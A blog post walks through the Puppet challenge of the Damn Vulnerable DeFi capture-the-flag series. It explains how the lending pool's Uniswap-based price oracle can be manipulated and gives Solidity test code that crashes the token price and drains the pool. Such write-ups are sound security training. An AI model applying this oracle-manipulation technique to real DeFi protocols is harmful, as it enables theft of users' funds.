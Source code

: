 ```yaml
---
title: 'Damn Vulnerable DeFi Challenge #8 Solution — Puppet'
excerpt: 'Damn Vulnerable DeFi is the war game created by @tinchoabbate to learn offensive security of DeFi smart contracts.</br></br>We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.'
coverImage:
  url: '/assets/blog/ethereum.jpg'
  credit:
    name: Nenad Novaković
    url: https://unsplash.com/@dvlden
date: '2022-05-23T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethereum.jpg'
---
```


This is Part 7 of the ["Let’s play Damn Vulnerable DeFi CTF"](https://stermi.xyz/blog/lets-play-damn-vulnerable-defi) series, where I will explain how to solve each challenge.

> [Damn Vulnerable DeFi](https://www.damnvulnerabledefi.xyz/index.html) is the war game created by [@tinchoabbate](https://twitter.com/tinchoabbate) to learn offensive security of DeFi smart contracts.
> Throughout numerous challenges, you will build the skills to become a bug hunter or security auditor in the space.

## Challenge #8  —  Puppet

> There’s a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There’s a DVT market opened in an [Uniswap v1 exchange](https://docs.uniswap.org/protocol/V1/introduction), currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

- [See contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v2.0.0/contracts/puppet)
- [Hack it](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.0.0/test/puppet/puppet.challenge.js)

## The attacker end goal

We start with 25 ETH and 1000 DVTs in balance and we need to drain all the Pool 100000 DVTs.

## Study the contracts

### `PuppetPool.sol`

The contract is compiled with Solidity ^0.8.0, this mean that is not keen to underflow/overflow attacks.

The contract is inheriting from OpenZeppelin ReentracyGuard, and is using `nonReentrant` in the `borrow` function. So, there’s no way to exploit it via a reentrancy attack.

Let’s see the three main functions implemented in the contract:

- `function borrow(uint256 borrowAmount) public payable nonReentrant` allow the user to borrow `borrowAmount` amount of token only if the user pay at least an amount of `ETH` equal to the double of the token price. If the user has paid more than requested, the difference is sent back to the user.

Inside the function there are two checks:

`require(msg.value >= depositRequired, “Not depositing enough collateral”);` that will check that you have sent at least double the amount of ether compared to the amount of token you want to borrow

`require(token.transfer(msg.sender, borrowAmount), “Transfer failed”);` that will check that the tokens borrowed have been correctly sent to the user and that the operation has not failed in the process.

- `function calculateDepositRequired(uint256 amount) public view returns (uint256)` that will calculate the amount of ETH you need to deposit given the amount of tokens you would like to borrow. Math seems to be fine, the order of operations to not incur in meth rounding error is respected.
- `function _computeOraclePrice() private view returns (uint256)` that will calculate the price of the token in the Uniswap V1 exchange DVT-ETH. This price is used by `calculateDepositRequired` to calculate the amount of ether needed to be deposited to borrow the tokens. Also here, the math seems to be fine, the order of operations to not incur in meth rounding error is respected.

Given that there are no underflow/overflow issues, reentrancy is cover and math operations for both `mul` and `div` is correctly ordered, how can we exploit this contract?

Let’s see how the price of a token is calculated. I’m going to merge and rearrange the code in both `calculateDepositRequired` and `_computeOraclePrice` to have a more clear picture:

```solidity
uint256 tokenPrice = uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
uint256 depositRequired = amount * tokenPrice * 2 / 10 ** 18
```

As you can see from the code, we can **manipulate the price of the token** from the oracle function **by manipulating the balance of the Uniswap pool**.

**The price of the token will go down as the balance of the token in the pool will go up.**

All of this is possible just because the pool has just a little liquidity compared to the amount of tokens that we own. As a result, we can manipulate the price of this specific pool.

## Solution code

Let’s look at the attacker code and explain step by step. This is just a part of the test’s code. If you want the full solution, please go to the end of the article and see the GitHub project link.

```solidity
//... imports

contract PuppetTest {

    //... setup

    function exploit() internal override {
        /** CODE YOUR EXPLOIT HERE */

        uint256 deadline = block.timestamp * 2;

        vm.startPrank(attacker);

        // Approve the exchange for the whole amount of token
        token.approve(address(uniswapExchange), type(uint256).max);

        // Sell token all the token to get ETH
        // Doing this the price of the token will lower and the Pool `_computeOraclePrice` will return a low value
        // Allowing us to borrow at a cheaper price
        uniswapExchange.tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline);

        // Calculate how much we should pay to borrow a token
        uint256 ethToBorrowOneToken = lendingPool.calculateDepositRequired(1 ether);

        // Calc how much we can borrow
        uint256 tokenWeCanBorrow = (attacker.balance * 10 ** 18) / ethToBorrowOneToken;

        // Get the max borrowable tokekns from the pool
        uint256 maxTokenToBorrow = Math.min(token.balanceOf(address(lendingPool)), tokenWeCanBorrow);

        // Borrow all the token draining the pool
        lendingPool.borrow{value: attacker.balance}(maxTokenToBorrow);

        vm.stopPrank();
    }
}
```

1.  Approve the Uniswap exchange to handle all the tokens that we own (up to the infinite)
2.  Sell all the tokens that we own for some ETH. We are not interested to know how much we are going to gain, but currently we know that 1 ETH = 1 DVT. `tokenToEthSwapInput(token.balanceOf(attacker), 1, deadline)` will perform a swap saying: sell all the token and at least I want 1 ETH back (the minimum amount of `tokenOut` we expect). Make the transaction fail if it does not succeed before the specified `deadline`. After the swap, the price of the DVT token calculated by the Oracle inside the Puppet pool will drop. This will mean that for just a little ETH (the collateral) we will be able to borrow all the DVTs that are inside the pool.
3.  We calculate how much ETH as collateral we need to be able to borrow one DVT token
4.  We calculate how much token we can borrow from the pool given the amount of ETH that we have in our balance
5.  We calculate how much we can really borrow (because the pool has a limited amount of DVT token inside, and we know that it would revert if we try to borrow more than the balance)
6.  And we call `lendingPool.borrow` to borrow all the available DVTs

You can find the full solution on GitHub, looking at [PuppetTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/puppet/PuppetTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract PuppetTest -vv`

## Further reading on Oracles and Price manipulation

- “[Smart Contract Security Guidelines #3: The Dangers of Price Oracles](https://blog.openzeppelin.com/secure-smart-contract-guidelines-the-dangers-of-price-oracles/)” by OpenZeppelin
- “[So you want to use a price oracle](https://samczsun.com/so-you-want-to-use-a-price-oracle/)” by samczsun

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
